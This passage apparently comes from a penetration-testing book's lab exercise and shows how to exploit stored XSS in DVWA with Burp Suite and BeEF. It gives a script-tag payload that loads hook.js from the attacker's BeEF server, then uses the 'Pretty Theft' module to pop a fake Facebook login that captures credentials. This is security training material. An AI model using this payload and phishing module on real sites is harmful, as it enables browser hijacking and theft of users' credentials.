 {icon=bomb}
G> ## The Play
G>
G> Make sure you have the OWASPBWA [configured](https://code.google.com/p/owaspbwa/wiki/UserGuide) and running in your lab.
G>
G> From the directory that you have BeEF installed, run the BeEF ruby script: `./beef`
G>
G> Log into the BeEF UI at `http://localhost:3000/ui/authentication` (or using https if you have configured TLS) with the user and password that you set-up in the BeEF root config.yaml.
G>
G> Open another browser tab and log-in to the DVWA.
G>
G> Browse to "XSS stored".
G>
G> Enter some text in the Name field and some text in the Message field.
G> 
G> Enable foxy proxy so that your request goes to the same port that burp suite is going to be listening on.
G>
G> Fire up burp.
G>
G> Back in the DVWA send your request by clicking on the Sign Guest-book button.
G>
G> Switch back to burp -> Proxy tab and the request should be waiting for you. You now need to replace the text you used in the Message field `mtxMessage` with `<script src="http://<BeEF comms server IP address>:3000/hook.js"></script>` and forward the request.
G>
G> You can disable FoxyProxy now too.
G>
G> Now on your victims machine, the victim can log into DVWA and browse to the same "XSS stored" page. Now as the attacker, you will now notice that the BeEF Web UI shows a node with the victims IP address. This means BeEF has the victims browser hooked. The victims browser is now a zombie, continuously polling the BeEF communications server for commands to execute on its behalf.
G>
G> If you open the victims browser developer tools, you will be able to inspect the communications and the JavaScript within the hook.js file.
G>
G> Back in the BeEF web UI you can explore the modules that you can launch against the victims browser. You can view the types of attacks you can carry out on the [BeEF projects wiki](https://github.com/beefproject/beef/wiki/BeEF-modules).
G>
G> If you select the victims node and click on the Commands tab in the BeEF web UI, then in the Module Tree under Social Engineering select the "Pretty Theft" node. There are some options to configure, but even selecting the default of Facebook if you know your target is already an avid FB user should work fine. You would of course know this if you have done due diligence in the reconnaissance stage.

{icon=bomb}
G> Click on the Execute button and on the next request -> response from the hook.js, the victims browser should pop a "Facebook Session Timed Out" modal. To get rid of this modal, the victim must enter their credentials and Log-in. There is no cancel or 'x' button. Once the victim has sent their credentials, they will be visible in the Command results of the BeEF web UI.  
